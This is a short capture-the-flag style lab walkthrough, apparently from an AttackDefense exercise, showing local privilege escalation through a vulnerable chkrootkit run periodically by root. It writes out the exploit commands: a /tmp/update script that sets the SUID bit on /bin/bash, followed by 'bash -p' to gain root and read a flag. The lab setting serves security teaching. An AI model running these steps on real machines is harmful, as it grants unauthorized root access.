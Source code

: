 # chkrootkit

Check running services
```
jackie@attackdefense:~$ ps aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
jackie         1  0.0  0.0   4624   800 ?        Ss   09:43   0:00 /bin/sh -c /usr/local/bin/start.sh
jackie         7  0.0  0.0  18372  3084 ?        S    09:43   0:00 /bin/bash /usr/local/bin/start.sh
root          12  0.0  0.0  28352  2584 ?        Ss   09:43   0:00 /usr/sbin/cron
jackie        13  0.1  0.0 138376 21484 ?        Sl   09:43   0:00 ttyd -p 8000 bash
root          19  0.0  0.0   9916  2828 ?        S    09:44   0:00 /bin/bash /bin/check-down
jackie       424  0.0  0.0  18504  3412 pts/0    Ss   09:44   0:00 bash
root         836  0.0  0.0   4528   724 ?        S    09:45   0:00 sleep 60
jackie       837  0.0  0.0  34396  2996 pts/0    R+   09:45   0:00 ps aux
```

Look at `/bin/check-down` - shell script calling chkrootkit periodically
```
jackie@attackdefense:~$ cat /bin/check-down
#!/bin/bash
while :
do
        /usr/local/bin/chkrootkit/chkrootkit -x > /dev/null 2>&1
        sleep 60
done
```

`chkrootkit` priv esc: https://www.exploit-db.com/exploits/33899

Create an `update` file in `/tmp` directory
```
jackie@attackdefense:/tmp$ cat update
#!/bin/bash
chmod u+s /bin/bash
jackie@attackdefense:/tmp$ chmod +x update
jackie@attackdefense:/tmp$ ls -l
total 8
-rw-r--r-- 1 root   root   835 Jun 28 09:51 ps
-rwxr-xr-x 1 jackie jackie  32 Jun 28 09:48 update
```

Wait for a min for chkrootkit to run and set the SETUID bit. Then run bash with effective uid as root
```
jackie@attackdefense:/tmp$ bash -p
bash-4.4# id
uid=1000(jackie) gid=1000(jackie) euid=0(root) groups=1000(jackie)
bash-4.4# cat /root/flag
483ff50857f26f9bd636bed69db8bf8f
```